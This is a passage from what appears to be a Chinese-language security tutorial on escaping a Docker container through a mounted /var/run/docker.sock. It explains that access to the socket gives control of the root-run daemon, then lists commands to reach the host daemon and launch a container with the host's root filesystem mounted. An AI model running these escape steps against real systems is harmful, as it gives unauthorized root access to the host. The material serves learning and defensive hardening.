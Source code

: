 ## docker.sock 挂载逃逸

Docker 采用 C/S 架构，我们平常使用的 Docker 命令中，docker 即为 client，Server 端的角色由 docker daemon(docker 守护进程) 扮演，二者之间通信方式有以下 3 种：

```plain
1, unix:///var/run/docker.sock
2, tcp://host:port
3、fd://socketfd
```

其中使用 docker.sock 进行通信为默认方式，当容器中进程需在生产过程中与 Docker 守护进程通信时，容器本身需要挂载/var/run/docker.sock 文件。  
本质上而言，能够访问 docker socket 或连接 HTTPS API 的进程可以执行 Docker 服务能够运行的任意命令，以 root 权限运行的 Docker 服务通常可以访问整个主机系统。  
因此，当容器访问 docker socket 时，我们可通过与 docker daemon 的通信对其进行恶意操纵完成逃逸。若容器 A 可以访问 docker socket，我们便可在其内部安装 client（docker），通过 docker.sock 与宿主机的 server（docker daemon）进行交互，运行并切换至不安全的容器 B，最终在容器 B 中控制宿主机。

### 逃逸

1、运行一个挂载/var/run/的容器

```plain
docker run -it -v /var/run/:/host/var/run/ 5d2df19066ac /bin/bash
```

2、寻找下挂载的 sock 文件

```plain
find / -name docker.sock
```

[![](assets/1708095739-8ee1f36109c33bea69d50bfe687bcf48.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230428211419-95c4e2f4-e5c6-1.png)  
3、在容器内安装 client，即 docker

```plain
apt-get update
apt-get install docker.io
```

4、查看宿主机 docker 信息

```plain
docker -H unix:///host/var/run/docker.sock info
```

5、运行一个新容器并挂载宿主机根路径

```plain
docker -H unix:///host/var/run/docker.sock run -v /:/test -it ubuntu:14.04 /bin/bash
```
